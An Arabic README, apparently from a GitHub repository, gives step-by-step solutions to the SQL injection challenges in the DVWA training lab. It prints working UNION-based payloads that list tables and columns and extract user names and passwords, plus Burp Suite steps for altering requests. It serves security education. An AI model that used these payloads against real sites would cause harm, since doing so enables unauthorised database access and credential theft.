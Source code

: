 
# ✅ حلول SQL Injection في DVWA

[![DVWA Image](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/280c20dd-f03c-4805-b139-2104a93e470a)](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION)

## مقدمة

تُعد DVWA (تطبيق الويب المعرض للاختراق بشكل متعمد) بيئة شهيرة لتعلم واختبار مهارات اختبار الاختراق بشكل قانوني وآمن.  
يركز هذا المستودع على **ثغرات حقن قواعد البيانات (SQL Injection)**، ويحتوي على شروحات مفصلة وحلول خطوة بخطوة لجميع مستويات التحدي.

تم إعداد هذا المستودع بواسطة **Nihar Rathod** المعروف باسم **Bugbot19**، وهو باحث أمني ومخترق أخلاقي.

---

## محتويات المستودع

- ✅ **حلول المستوى السهل (Low)**: توضيح تفصيلي لاستغلال ثغرات SQL Injection للمبتدئين.
- 🟡 **حلول المستوى المتوسط (Medium)**: شرح تقنيات أكثر تطورًا لتجاوز الحماية الجزئية.
- 🔴 **حلول المستوى الصعب (High)**: أساليب متقدمة لاختراق آليات الحماية المعقدة.

---

## 💻 SQL - المستوى السهل (Low)

### تجربة أولية

نقوم بإدخال `1` في خانة النص لاكتشاف طريقة عمل التطبيق.

![SQL Low 1](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/f5cf6cdf-6b73-4fc3-8143-cf2cd53fd895)

تم عرض بيانات المستخدم صاحب المعرف `1`.

### استرجاع جميع المستخدمين

نستخدم الحمولة التالية:
```
' or 1=1#
```

![SQL Low 2](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/21939e1a-d841-4e1f-a21d-7d4eaf1180a3)

### الحصول على أسماء الجداول

نستخدم الحمولة:
```
' union select table_name, null from information_schema.tables#
```

![SQL Tables](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/8873e7af-956d-444e-b57d-639da8e436cc)

تم العثور على جدول باسم `users`.

### استخراج أسماء الأعمدة

نستخدم الحمولة:
```
' union select column_name, null from information_schema.columns where table_name='users'#
```

![SQL Columns](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/6135d1b9-4163-4c2f-9a32-9fa6acebd729)

تم العثور على الأعمدة: `id`, `login`, `password`.

### استخراج بيانات المستخدمين

نستخدم الحمولة النهائية:
```
' union select user, password from users#
```

![SQL Final Data](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/b80fbf82-7fae-4b8c-b1a3-ac0ed991b28c)

تمكنا من عرض أسماء المستخدمين وكلمات المرور.

---

## 🟡 SQL - المستوى المتوسط (Medium)

### باستخدام Burp Suite

نفس الحمولة تعمل:
```
1 union select user, password from users#
```

نقوم بالتالي:
1. تفعيل الاعتراض في Burp Suite.
2. إرسال الطلب وتعديله.

![Burp Medium 1](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/649efa19-e910-4917-9192-303da6f1eac7)

نستهدف المتغير `id`.

![Burp Medium 2](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/ef0a9b27-069b-4f5e-990b-cd765424fa2b)

ثم نضغط على "Forward" ونلاحظ ظهور بيانات المستخدمين:

![Burp Medium 3](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/d9f4657a-17fe-453d-9ec2-38bc5acc1e72)

---

## 🔴 SQL - المستوى الصعب (High)

### أيضًا باستخدام Burp Suite

نفس الحمولة:
```
' union select user, password from users#
```

نضغط على الرابط لتغيير المعرف:

![Hard Step 1](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/f140ec91-5604-4903-a8cf-00ca950ecb72)

ثم يظهر نموذج جديد:

![Hard Step 2](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/39a191f6-6ae0-421b-a91e-e2bb46d3dc3c)

نُدخل الحمولة نفسها:

```
' union select user, password from users#
```

![Hard Step 3](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/704d0d77-b194-4fa3-8c78-74c7bd8fb911)

ثم نضغط على "Submit" ونشاهد النتائج:

![Hard Final Result](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION/assets/54115061/4e1209cb-0699-4b92-a450-aa077a3f174d)

---

## ✅ الخلاصة

هذا الدليل يغطي كيفية استغلال ثغرات SQL Injection في DVWA بجميع مستوياتها. يُوصى بالتدريب في بيئات افتراضية وعدم استخدام هذه الطرق على تطبيقات حقيقية إلا بإذن قانوني.

> 🔐 **التدريب الآمن هو أفضل وسيلة للتعلم دون التسبب بأي ضرر.**

---

👤 **إعداد:** [Nihar Rathod (Bugbot19)](https://github.com/kashrathod19)  
📁 **المصدر:** [GitHub Repository](https://github.com/kashrathod19/SQL-Injection-DVWA-SOLUTION)
